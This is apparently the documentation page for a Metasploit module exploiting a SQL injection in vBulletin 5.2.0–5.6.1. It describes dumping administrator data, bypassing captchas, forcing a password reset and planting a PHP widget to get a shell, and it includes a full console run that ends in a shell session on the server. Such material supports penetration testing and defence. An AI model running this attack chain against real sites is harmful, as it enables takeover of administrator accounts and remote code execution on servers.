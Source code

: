 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field.

#### Leveraging getContentIndexable SQL injection for RCE

The exploit begins by attempting to get a `nodeid` for use in the SQL injection attack, this can be supplied
by the user within the `NODE` module option, or if not supplied, the value is brute-forced within the bounds
of the `MINNODE` and `MAXNODE` module options. After acquiring a valid `nodeid`, the exploit attempts to obtain
the vBulletin install's table prefix. This is done by using the `getIndexableContent` SQL injection vulnerability
to query the `INFORMATION_SCHEMA` table and get a result we expect (to determine if there is a prefix attached).
In the module we use the `language` table for this process. After getting the table prefix we can begin dumping
the table data, we start with the administrator user id, username, token, and email. These are used later in the
process to make a lost password request and can also be used to backup the administrator user's data prior to the
destructive change that will happen when the password is changed later in the module. After acquiring the
administrator info the script begins the to gather other pieces needed to submit a lost password request. This
part can vary between installs but involves a form of "human verification" along with an administrator's email.
The module will attempt to determine the human verification (or captcha) type, then determine if a bypass or solve
is possible. There are 4 total types of human verification, an image (GD or ImageMagic based), a Question/Answer
(which is stored as a regular expression), Recaptcha2 (an external api based captcha), and disabled.

- If an `Image` (GD or ImageMagic based) human verification is selected, the module can bypass it and requires
no interaction. This is done by querying the database for the image contents using the SQL injection vulnerability.

- If the `Question/Answer` human verification is selected, the module will attempt to submit the answer retrieved
from the database utilizing the SQL injection vulnerability. This can sometimes fail and require manual intervention
if a complex regular expression is used but the answer is provided through the modules output.

- If the `Recaptcha2` human verification method is selected, the module will fail with a message along with an
administrators email to use for a lost password request.

- If `Disabled` is chosen, the script will work without action.

After bypassing the human verification the script will attempt to send a lost password request, this will send
an email to the administrator. If the human verification request fails, the module can be configured to skip the
human verification and lost password steps. This is done by setting the modules `MANUALLOSTPASS` option to true,
**this however does require that just prior to running the exploit the lost password request is made**. If the
administrator completes the request, the activation token will be removed from the database and the next step of
the reset will fail. After the lost password request is made, the module then attempts to retrieve the Activation
ID from the database using the SQL injection vulnerability. When all of the above is completed, the administrators
password can finally be reset. The password is changed to a random 10-16 character alphanumeric password which is
displayed in the modules output.

The module can now begin to leverage the administrator access for remote command execution. This begins by first creating
a new widget instance, this widget instance is of a `widget_php` type (a special type that allows for php code embedded
within). After the widget instance is created, the module then attempts to modify the widget to add our selected payload.
The widget is then ready to use and is added to a new page. This page is created with a randomly generated 10 to 16
character alphanumeric url. The payload and attack is then ready to execute and the module makes a final request in the
attack process to execute the PHP payload. Upon successful completion, the page is deleted from the vBulletin install.

## Verification Steps

1. Do: ```use exploit/multi/http/vbulletin_getindexablecontent```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```set PAYLOAD [PAYLOADNUM]```
6. Do: ```run```

## Options

### MANUALLOSTPASS

A boolean value used to determine if the lost password request should be automated or will be performed manually. **Default: false**

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired by brute-forcing.

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf5 > use exploit/multi/http/vbulletin_getindexablecontent 
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set RHOSTS vb.local
RHOSTS => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set VHOST vb.local
VHOST => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set TARGETURI /vb5
TARGETURI => /vb5
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set PAYLOAD 2
msf5 exploit(multi/http/vbulletin_getindexablecontent) > check
[*] 192.168.1.100:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/vbulletin_getindexablecontent) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Brute forcing to find a valid node id.
[+] Sucessfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[*] Performing SQL injection on target to retrieve 'table_name' from 'information_schema.columns'.
[+] Sucessfully retrieved table to get prefix from vb5_language.
[*] Performing SQL injection on target to retrieve 'userid' from 'vb5_administrator'.
[*] Performing SQL injection on target to retrieve 'username' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'token' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'email' from 'vb5_user'.
[+] Retrieved administrator uid: 1 user: administrator email: zenofex@exploitee.rs and password: $2y$15$IKz0ra/N2WrJr4BZZMExIOwIET.4Tz8Wni20BMEHjG/A.k9tuOK.W
[*] Sending request to '/vb5/ajax/api/hv/fetchHvType' to get human verification type.
[+] Retrieved HV/captcha type of 'Image'.
[*] Making request to '/vb5/ajax/api/hv/generateToken' to retrieve HV token.
[+] Retrieved '85885c3fafb61b91cb3d2959e13ffe07' human verification token.
[*] Using HV token '85885c3fafb61b91cb3d2959e13ffe07' and SQLinjection to determine HV answer.
[*] Performing SQL injection on target to retrieve 'answer' from 'vb5_humanverify'.
[+] Retrieved '4w8CPc' answer to HV token '85885c3fafb61b91cb3d2959e13ffe07'.
[*] Making request to '/vb5/auth/lostpw' to begin lost password process.
[*] Performing SQL injection on target to retrieve 'activationid' from 'vb5_useractivation'.
[*] Sending reset password request to '/vb5/auth/reset-password'.
[+] User with userid '1' successfully reset password to 'dSxTtxI7yh'.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator .
[*] Making request to '/vb5/ajax/activate-sitebuilder' to activate site-builder functionality.
[+] Successfully enabled site-builder functionality.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator cplogin.
[*] Making request to '/vb5/ajax/api/widget/saveNewWidgetInstance' to create new widget.
[+] Created new widget instance.
[*] Making request to '/vb5/ajax/api/widget/saveAdminConfig' to add payload to widget.
[+] Successfully added payload to widget.
[*] Sending request to '/vb5/admin/savepage' to save new page at 'OToB9nTU'.
[+] Page succesfully create and should be accessible at '/vb5/OToB9nTU'.
[+] Executing PHP payload (230 bytes) at /vb5/OToB9nTU.
[*] Sending request to '/vb5/OToB9nTU' to execute payload.
[*] Sending delete page request to '/vb5/ajax/api/page/delete'.
[+] Successfully deleted page with pageid: 148
[*] Started bind TCP handler against 192.168.1.100:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.100:4444) at 2020-05-22 21:24:42 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
